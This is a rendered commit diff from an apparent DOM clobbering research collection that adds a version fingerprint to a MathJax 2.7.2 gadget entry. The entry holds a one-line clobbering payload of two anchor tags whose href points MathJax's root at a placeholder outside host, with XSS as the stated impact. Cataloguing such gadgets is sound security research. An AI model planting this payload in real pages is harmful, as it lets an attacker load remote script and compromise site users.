

Before and after one commit to jackfromeast/dom-clobbering-collection, a Markdown page: domc-gadgets/mathjax.md, the part around the change. Rendered like a GitHub page.

Commit message:
MathJax fingerprint

````diff
--- a/domc-gadgets/mathjax.md
+++ b/domc-gadgets/mathjax.md
@@ -4,6 +4,7 @@
 
 + Library: MathJax
 + Version: 2.7.2
++ Fingerprint: `MathJax.version == "2.7.2"`
 + Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
 + Impact: XSS
 + Foundby: TheHulk
````
